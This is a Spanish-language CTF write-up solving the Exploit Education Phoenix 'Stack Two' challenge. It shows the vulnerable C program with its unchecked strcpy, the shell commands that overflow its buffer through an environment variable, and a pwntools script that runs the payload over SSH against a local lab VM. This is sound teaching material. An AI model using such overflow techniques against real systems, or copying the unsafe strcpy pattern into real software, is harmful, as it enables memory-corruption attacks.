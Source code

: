 ```yaml
---
layout: single
title: "Stack Two"
permalink: /pwn/phoenix/stack-two/
parent: Phoenix
comments: true
excerpt: "Stack Two"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

[Exploit Education > Phoenix > Stack Two](https://exploit.education/phoenix/stack-two/){:target="_blank"}

En **Stack Two** se introduce el uso de variables de entorno y cómo pueden ser manipuladas para explotar un desbordamiento de buffer.


## Análisis del código fuente

El objetivo es modificar la variable changeme con el valor **0x0d0a090a** Para lograrlo, el programa copia sin validación el contenido de la variable de entorno ExploitEducation al buffer locals.buffer, lo que abre la puerta a un buffer overflow.


```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bathroom, and you are Finnish when you get
 * out, what are you when you are in the bathroom?
 *
 * European!
 */

#include <err.h>    // Biblioteca para manejo de errores (errx).
#include <stdio.h>  // Biblioteca estándar para entrada/salida.
#include <stdlib.h> // Biblioteca estándar para funciones generales como getenv() y exit().
#include <string.h> // Biblioteca para funciones de manipulación de cadenas como strcpy().
#include <unistd.h> // Biblioteca para funciones del sistema operativo POSIX.

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa.

int main(int argc, char **argv) { 
  // Función principal, recibe argumentos de línea de comandos.

  struct { 
    char buffer[64];          // Define un buffer de 64 bytes para almacenar datos.
    volatile int changeme;    // Variable que debe modificarse mediante un exploit.
  } locals;                   // Agrupa estas variables dentro de la estructura 'locals'.

  char *ptr; 
  // Apuntador para almacenar el valor de una variable de entorno.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida definido en BANNER.

  ptr = getenv("ExploitEducation"); 
  // Obtiene el valor de la variable de entorno "ExploitEducation".
  if (ptr == NULL) { 
    // Verifica si la variable de entorno no está configurada.
    errx(1, "please set the ExploitEducation environment variable"); 
    // Muestra un mensaje de error y termina el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, ptr); 
  // Copia el contenido de la variable de entorno "ExploitEducation" en el buffer 'buffer'.
  // Vulnerabilidad: No verifica el tamaño del contenido, lo que permite un desbordamiento de buffer.

  if (locals.changeme == 0x0d0a090a) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x0d0a090a.
    puts("Well done, you have successfully set changeme to the correct value"); 
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n", locals.changeme); 
    // Si el valor no es el esperado, imprime el valor actual de 'changeme' y el valor deseado.
  }

  exit(0); 
  // Termina el programa correctamente con el código de salida 0.
}

```

**Ejecución del binario**

Si ejecutamos el binario sin definir la variable de entorno, aparece un mensaje de error que nos dice: Por favor, configure la variable de entorno ExploitEducation.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

Al definir la variable con 64 caracteres de A vemos que con esto ya nos da la respuesta de que la variable está en **0x00000000**

```jsx
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

```

**Confirmando el overflow**

Si añadimos BBBB (0x42 en ASCII) después de los 64 A, el valor de changeme cambia a **0x42424242** esto confirma que estamos sobreescribiendo la variable.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x42424242, we want 0x0d0a090a

```
**Explotación**

Ahora sobreescribimos con el valor solicitado **0x0d0a090a** cuidando el endianness (little-endian en x86): **\x0A\x09\x0A\x0D** y con esto confirmamos que se logra el reto


```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=$(python -c 'print "A"*64 + "\x0A\x09\x0A\x0D"')
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

**Explotación con Pwntools**

También podemos automatizar este proceso con un script en Python

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64
   6   │ payload += p32(0x0d0a090a)
   7   │ 
   8   │ # Establece conexión SSH
   9   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
  10   │ 
  11   │ # Configura la variable de entorno 'ExploitEducation'
  12   │ env_vars = {"ExploitEducation": payload}
  13   │ 
  14   │ # Ejecuta el programa remoto con la variable de entorno configurada
  15   │ process = ssh_connection.process(executable='/opt/phoenix/amd64/stack-two', env=env_vars)
  16   │ 
  17   │ # Captura y muestra la salida
  18   │ flag = process.recvall().decode()
  19   │ log.success("Output: " + flag)
  20   │ 
  21   │ # Cierra la conexión
  22   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process '/opt/phoenix/amd64/stack-two' on localhost: pid 583
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-two'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-two' on localhost (pid 583)
[+] Output: Welcome to phoenix/stack-two, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value
```

**Conclusión**

En Stack Two vimos cómo una variable de entorno puede ser aprovechada para provocar un desbordamiento de buffer y modificar variables internas del programa.

El reto refuerza dos ideas clave:

  - Las funciones inseguras como strcpy deben evitarse.

  - Variables de entorno pueden ser un vector de ataque si no se validan correctamente.

  - Con esta técnica pudimos manipular la variable changeme y completar el reto con éxito.